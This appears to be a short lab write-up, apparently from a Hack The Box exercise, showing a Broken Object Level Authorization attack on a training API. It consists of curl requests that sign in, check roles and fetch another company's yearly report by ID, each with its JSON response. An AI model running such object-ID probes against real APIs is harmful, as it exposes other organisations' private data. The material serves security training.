

# Broken Object Level Authorization

```bash
curl -X 'POST' \  
 'http://94.237.53.113:38585/api/v1/authentication/suppliers/sign-in' \  
 -H 'accept: application/json' \  
 -H 'Content-Type: application/json' \  
 -d '{  
 "Email": "redacted@example.invalid",  
 "Password": "HTBPentester1"  
}'
```

```json
{  
 "jwt": "<REDACTED_JWT>"  
}
```


```bash
curl -X 'GET' 'http://94.237.53.113:38585/api/v1/suppliers/current-user' -H 'accept: application/json' -H 'Authorization: Bearer <REDACTED_JWT>'
```

```json
{  
 "supplier": {  
   "id": "c538adbb-2c74-447e-8029-54ecad6c5464",  
   "companyID": "b75a7c76-e149-4ca7-9c55-d9fc4ffa87be",  
   "name": "HTBPentester1",  
   "email": "redacted@example.invalid",  
   "phoneNumber": "+44 9999 999991"  
 }  
}
```

```bash
curl -X 'GET' 'http://94.237.53.113:38585/api/v1/roles/current-user' -H 'accept: application/json' -H 'Authorization: Bearer <REDACTED_JWT>'
```

```json
{  
 "roles": [  
   "SupplierCompanies_GetYearlyReportByID"  
 ]  
}
```

```bash
curl -X 'GET' 'http://94.237.53.113:38585/api/v1/supplier-companies/yearly-reports/1' -H 'accept: application/json' -H 'Authorization: Bearer <REDACTED_JWT>'
```

```json
{  
 "supplierCompanyYearlyReport": {  
   "id": 1,  
   "companyID": "f9e58492-b594-4d82-a4de-16e4f230fce1",  
   "year": 2020,  
   "revenue": 794425112,  
   "commentsFromCLevel": "Superb work! The Board is over the moon! All employees will enjoy a dream vacation!"  
 }  
}
```


